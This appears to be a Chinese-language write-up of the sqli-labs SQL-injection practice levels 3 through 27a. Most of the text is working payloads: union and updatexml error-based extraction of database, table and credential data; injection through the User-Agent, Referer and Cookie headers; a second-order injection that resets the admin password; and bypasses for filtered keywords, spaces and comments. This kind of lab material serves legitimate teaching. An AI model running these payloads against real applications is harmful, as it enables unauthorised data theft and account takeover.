# Sqlilabs

## 第三关-单引号括号

?id=1'发现有括号包裹



?id=1') and 1=1--+ 页面正常 ?id=1') and 1=2--+ 页面异常,说明存在字符型sql注入



oderby测出是3列

?id=-1') union select 1,2,database()--+ 爆出当前数据库



?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

爆出数据表



?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

爆出字段名



?id=-1') union select 1,2,group_concat(0x7e,username,0x7e,password,0x7e) from security.users--+

爆出数据



## 第四关-双引号括号

和第四关同理，单引号换成双引号即可

## 第五关-函数报错注入

?id=1' 字符型单引号注入



爆出当前数据库的所有表：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),32,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),63,31),0x7e),1)--+
```

爆出字段信息：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),1,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),32,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),63,31),0x7e),1)--+
```

爆出数据：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),1,31),0x7e),1)--+
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),32,31),0x7e),1)--+
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),63,31),0x7e),1)--+
```

## 第六关-双引号报错注入

和第五题一样，就换成双引号就行

## 第七关-布尔盲注

查询结果不回显



报错不显示详细内容



?id=1') and ('123'='123  

?id=1') and ('123'='124  测出有括号





利用burp爆破即可

## 第八关-布尔盲注

根据判读为布尔盲注，burp跑一下就行







## 第九关-时间盲注

页面都有数据，判断为时间型盲注





## 第十关-时间盲注

和第九关相似，就是变成了双引号



## 第十一关

报错发现字符型注入



## 第十二关

同11，只不过是")型



## 第十三关-函数报错

怎么试都没反应，函数报错注入



## 第十四关-函数报错

单引号没反应，双引号报错，万能密码没反应，试一试函数报错



## 第十五关-布尔盲注

单引号布尔盲注



## 第十六关-布尔盲注

同上一关，不过变成了")注入

## 第十七题

username没有注入，password有函数报错注入



## 第十八题-Uagent

1' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),1,31)),1) or '

User-Agent注入。这关一定要注意，请求正文中的uname和passwd的值一定要是数据库中存在的用户名和对应的密码，因为这关代码会先判断数据库中是否有该用户名和密码的用户，如果有才会将User-Agent和客户端ip信息写入数据库



## 第十九题-Referer

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1) or '



## 第二十题-Cookie注入

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)-- s



## 第二十一题-Cookie注入

和上一题一样，不过被base64编码后又进行url编码

MSdhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlLHVzZXIoKSwweDdlLEBAZGF0YWRpciksMSktLSBz



## 第二十二题-Cookie注入

和上题一样，不过换成了双引号注入

MSJhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlLHVzZXIoKSwweDdlLEBAZGF0YWRpciksMSktLSBz



## 第二十三题-过滤注释

过滤了注释，换or拼接即可

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1) or'



## 第二十四关-二阶注入

这关是二阶注入，先观察页面，再看代码找注入点

首先观察一下页面，有登录和注册新用户的功能（忘记密码功能是假的）

可以发现本关应该有三个位置有sql语句，登录的位置是select语句，新建用户的地方是insert语句，修改密码的地方是update语句。

再看看代码中这三个sql语句是否有预编译、编码、过滤等操作，以判断是否有注入可能

登录位置代码如下，mysql_real_escape_string()函数转义 SQL 语句中使用的字符串中的特殊字符，这里select语句中用户名和密码都有单引号闭合，用户输入用这个函数处理之后无法闭合单引号，因此无注入点。

注册用户的代码如下，同样，insert语句的入参都经过了函数mysql_escape_string()的转义，没有注入点

 修改密码的代码如下，update语句中的$pass和$curr_pass都是用户输入的参数，都经过转义了，但$username是从session中读取的，并且没有经过转义，因此有sql注入的可能。



username有注入点，也就是说，这关可以实现不知道已知用户密码的情况下，修改已知用户密码的操作。这样倒推回去，修改密码时登录的用户（也就是攻击者新创建的用户）需要特殊构造。比如，如果已知用户是admin，则新创建的用户应当是admin'#或者admin'-- s之类，使最终生效的sql语句为：UPDATE users SET PASSWORD='$pass' where username='admin'

因此，本关的解法可以是：

注册新用户admin'#，密码随意，以admin'#登录，修改密码为123

 上图中点reset之后再logout，然后用用户名admin，密码123登录，可以登录成功

## 第二十五关-过滤or和and

双写绕过即可

1' aandnd updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)-- s



## 第二十五a关-过滤or和and

这关没有报错回显，利用联合注入即可

-1 union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata



## 第二十六关-过滤空格、注释、or、and

1'aandnd(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))oorr'1'='1

过滤空格：1、空白符绕过 2、多行注释/**/绕过 3、括号绕过

过滤注释：单引号绕过

过滤or、and：双写绕过



## 第二十六关a-过滤空格、注释、or、and

没有报错提示，不能用函数报错，可以利用盲注

过滤空格：1、空白符绕过 2、多行注释/**/绕过 3、括号绕过

过滤注释：单引号绕过

过滤or、and：双写绕过

1') anandd (length(database())>1) anandd ('1'='1



## 第二十七关-空格、注释、unionselect

可以直接报错注入：

1'and (updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)) or '1'='1



多尝试几次之后发现，本关有以下过滤：

1、过滤空格，可以用%0A绕过

2、过滤union，可以用双写绕过

3、过滤select，可以大写某些字母绕过

4、过滤注释符，绕不过，可以用and '1'='1替代

999'%0Aununionion%0ASELect%0A4,2,3%0Aand%0A'1'='1



## 第二十七关a

同上一关，闭合变成了双引号

999"%0Aununionion%0ASELect%0A4,2,3%0Aand%0A"1"="1
